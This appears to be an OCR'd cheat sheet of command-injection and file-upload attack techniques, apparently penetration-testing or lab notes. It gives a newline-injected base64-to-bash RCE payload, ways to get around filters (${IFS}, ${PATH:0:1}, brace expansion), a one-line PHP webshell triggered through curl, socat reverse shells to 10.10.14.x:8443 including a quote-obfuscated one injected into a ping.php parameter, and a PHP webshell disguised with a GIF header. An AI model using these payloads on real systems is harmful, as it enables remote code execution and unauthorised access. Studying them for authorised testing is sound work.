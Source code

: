 Example RCE: `127.0.0.1%0abash<<<$(base64 -d<<<IYIQGEhjkwe==)`

> Interesting codes:

Using tabs instead of spaces:

```
%09
```

Will be replaced with a space and a tab:

```
${IFS}
```

Commas will be replaced with spaces:

```
{ls,-la}
```

Character that will be replaced with '/':

```
${PATH:0:1}
```

Character that will be replaced with ';':

```
${LS_COLORS:10:1}
```

> Example RCE attack with PHP

Upload a simple webshell with the following contents:

```php
<?php system($_GET['cmd']); ?>
```

```
curl http://domain.com/uploads/shell.php?cmd=<command>
```

> Example - Socat for reverse shell

Code:

```
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

Code:

```
/ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash
```

> Example -  Create a malicious image

Example reverse shell PHP into a GIF file:

```
user@domain$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
